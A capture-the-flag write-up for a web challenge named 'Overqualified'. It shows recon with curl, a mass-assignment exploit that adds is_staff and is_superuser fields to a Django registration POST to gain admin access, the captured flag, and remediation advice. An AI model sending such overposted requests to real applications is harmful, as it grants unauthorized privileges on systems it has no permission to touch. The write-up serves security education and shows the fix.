



# Overqualified

## Metadata

| Field | Value |
| --- | --- |
| Category | `web` |
| Difficulty | Medium |
| Points | 100 |
| Solves | 110 |
| First Blood | olati |

## Challenge Description

```text
NexaCorp's employee portal lets new hires sign up for internal access. HR
swears the onboarding form only asks for name, email, and password. Just those
three. Promise.
```

## Artifacts

This challenge directory did not include application source code or a ZIP
archive. The useful local artifacts are the final solver and evidence captured
from the live web application:

```text
solve_overqualified.sh
assets/register.html
assets/register-page.png
assets/dashboard-normal.html
assets/dashboard.html
assets/dashboard.png
assets/admin-dashboard.html
assets/admin-dashboard.png
assets/register-response.txt
```

Target used during the solve:

```text
https://ce2f3697ec2f4faa.chal.ctf.ae
```

## Recon

I started with normal web recon instead of assuming the bug from the challenge
title. The root route redirected to the login page:

```bash
curl -k -i https://ce2f3697ec2f4faa.chal.ctf.ae/
```

Relevant response:

```text
HTTP/1.1 302 Found
Server: gunicorn
Location: /login/
```

The unauthenticated dashboard routes also redirected to login:

```bash
curl -k -i https://ce2f3697ec2f4faa.chal.ctf.ae/dashboard/
curl -k -i https://ce2f3697ec2f4faa.chal.ctf.ae/admin/dashboard/
```

Relevant responses:

```text
Location: /login/?next=/dashboard/
Location: /login/?next=/admin/dashboard/
```

That established the basic boundary:

```text
anonymous user -> login/register only
authenticated employee -> dashboard
privileged user -> /admin/dashboard/
```

Next I inspected `/register/` because the prompt emphasized what the onboarding
form "only asks for". The page returned a Django-style CSRF token and a visible
registration form:

```bash
curl -k -i https://ce2f3697ec2f4faa.chal.ctf.ae/register/
```

Relevant response headers:

```text
HTTP/1.1 200 OK
Server: gunicorn
Set-Cookie: csrftoken=<token>; Path=/; SameSite=Lax
```

The visible fields in the form were:

```html
<input type="hidden" name="csrfmiddlewaretoken" value="...">
<input type="text" name="username" id="id_username">
<input type="email" name="email" id="id_email">
<input type="password" name="password" id="id_password">
<input type="password" name="password_confirm" id="id_password_confirm">
```

There were no visible fields named `is_staff`, `is_superuser`, `role`, or
`admin`. The screenshot below shows the same public form as rendered by the
browser:



At this point I had two useful observations:

1. The application looked like Django: `csrftoken`, `csrfmiddlewaretoken`,
   `sessionid`, and `Server: gunicorn`.
2. The prompt was unusually specific about the form only asking for normal user
   fields.

That combination made me test whether the frontend was stricter than the
backend.

## Vulnerability

The vulnerability is mass assignment, also commonly called overposting. The
server accepts additional registration parameters that are not present in the
HTML form and applies them to the newly created user.

This was not a blind guess. The reasoning path was:

1. The challenge text pointed at a mismatch between the visible onboarding form
   and the backend registration behavior.
2. The live app exposed Django CSRF/session conventions.
3. Django's built-in `User` model has privilege fields named `is_staff` and
   `is_superuser`.
4. Those field names match the exact kind of sensitive attributes that should
   never be bindable from a public registration request.

Django documents `is_staff` as the boolean that allows access to the admin site,
and `is_superuser` as the boolean that grants all permissions. Django's
`create_superuser()` helper sets both of them to true, which made these the
first privilege fields to test.

The suspicious request was therefore not a normal account registration:

```text
username=<user>
email=<user>@nexacorp.internal
password=<password>
password_confirm=<password>
```

but the same request with extra privilege fields added:

```text
username=<user>
email=<user>@nexacorp.internal
password=<password>
password_confirm=<password>
is_staff=on
is_superuser=on
```

The server should ignore or reject `is_staff` and `is_superuser` because they
are not part of the public registration form. Instead, the created account
became staff and could access the administrative dashboard.

## Exploitation

The exploit chain was:

1. Fetch `/register/` to receive a CSRF cookie and hidden CSRF form token.
2. Submit the registration form with the normal fields.
3. Add `is_staff=on` and `is_superuser=on` to the POST body.
4. Reuse the returned `sessionid` cookie.
5. Visit `/dashboard/` and confirm the account is now `Staff`.
6. Visit `/admin/dashboard/` and read the flag.

The first step was collecting the CSRF token:

```bash
curl -k -c cookies.txt \
  https://ce2f3697ec2f4faa.chal.ctf.ae/register/ \
  -o register.html
```

The token is in the hidden input:

```html
<input type="hidden" name="csrfmiddlewaretoken" value="<csrf token>">
```

As a control, I created a normal user without the extra fields and checked the
dashboard. The role stayed unprivileged:

```text
assets/dashboard-normal.html:900: <span class="card-label">Role</span>
assets/dashboard-normal.html:904: Employee
```

The exploit registration request added the overposted fields:

```bash
curl -k -i \
  -b cookies.txt \
  -c cookies.txt \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Referer: https://ce2f3697ec2f4faa.chal.ctf.ae/register/' \
  --data-urlencode 'csrfmiddlewaretoken=<csrf token>' \
  --data-urlencode 'username=<new user>' \
  --data-urlencode 'email=<new user>@nexacorp.internal' \
  --data-urlencode 'password=Aa1!overqualified' \
  --data-urlencode 'password_confirm=Aa1!overqualified' \
  --data-urlencode 'is_staff=on' \
  --data-urlencode 'is_superuser=on' \
  https://ce2f3697ec2f4faa.chal.ctf.ae/register/
```

The server accepted the registration and created an authenticated session:

```text
HTTP/1.1 302 Found
Location: /dashboard/
Set-Cookie: sessionid=<session>; HttpOnly; Path=/; SameSite=Lax
```

After that registration, `/dashboard/` showed the account as staff and exposed
the admin navigation item:

```html
<span class="badge badge-staff">Staff</span>
...
Admin Dashboard
```

Browser evidence:



The final request used the same session cookie:

```bash
curl -k -b cookies.txt \
  https://ce2f3697ec2f4faa.chal.ctf.ae/admin/dashboard/
```

Relevant response:

```html
<div class="flag-value">
  <code id="flag-code">flag{23d35949aa706158}</code>
</div>
```

Browser evidence:



## Technical Details

Mass assignment happens when request parameters are bound to internal object
fields too broadly. In this challenge, the public HTML form only exposed normal
registration fields, but the backend behavior showed that additional submitted
fields were still applied to the user object.

The important distinction is:

```text
visible form fields       -> username, email, password, password_confirm
server-accepted extras    -> is_staff, is_superuser
security-sensitive impact -> account becomes privileged
```

This is especially dangerous in frameworks with conventional model fields. A
tester does not need source code if the framework and object type are guessable.
Here, the Django indicators made `is_staff` and `is_superuser` realistic field
names to try. The successful exploit proved that the registration handler was
not using a strict allowlist of bindable fields.

The expected backend pattern would be:

```text
allowed registration fields = username, email, password
ignore/reject everything else
```

The observed behavior was:

```text
public registration POST
        |
        v
extra is_staff/is_superuser parameters accepted
        |
        v
new session has Staff/Superuser privileges
        |
        v
/admin/dashboard/ reveals internal system key
```

A proper fix would explicitly map only allowed registration fields into the user
creation logic, use a dedicated registration form or DTO, and force sensitive
authorization fields such as `is_staff` and `is_superuser` to server-side
defaults regardless of client input.

## Exploit Artifact

The final artifact is [solve_overqualified.sh](solve_overqualified.sh). It:

1. fetches `/register/`;
2. extracts the CSRF token;
3. submits a registration request with `is_staff=on` and `is_superuser=on`;
4. keeps the authenticated cookies;
5. requests `/admin/dashboard/`;
6. prints the flag.

Usage:

```bash
chmod +x solve_overqualified.sh
./solve_overqualified.sh https://ce2f3697ec2f4faa.chal.ctf.ae
```

To regenerate the HTML evidence:

```bash
OVERQUALIFIED_EVIDENCE_DIR=assets \
  ./solve_overqualified.sh https://ce2f3697ec2f4faa.chal.ctf.ae
```

## Validation

Syntax check:

```bash
bash -n solve_overqualified.sh
```

Final solver output:

```text
flag{23d35949aa706158}
```

Evidence files:

```text
assets/register.html          public registration form
assets/dashboard-normal.html  normal user control, role remains Employee
assets/dashboard.html         overposted user dashboard, role is Staff
assets/admin-dashboard.html   admin dashboard containing the flag
```

Important extracted lines:

```text
assets/register.html:881: name="username"
assets/register.html:889: name="email"
assets/register.html:897: name="password"
assets/register.html:904: name="password_confirm"
assets/dashboard-normal.html:904: Employee
assets/dashboard.html:848: badge-staff
assets/dashboard.html:895: Admin Dashboard
assets/admin-dashboard.html:935: flag{23d35949aa706158}
```

## References

- <https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html>
- <https://cwe.mitre.org/data/definitions/915.html>
- <https://docs.djangoproject.com/en/5.2/ref/contrib/auth/>

## Flag

```text
flag{23d35949aa706158}
```
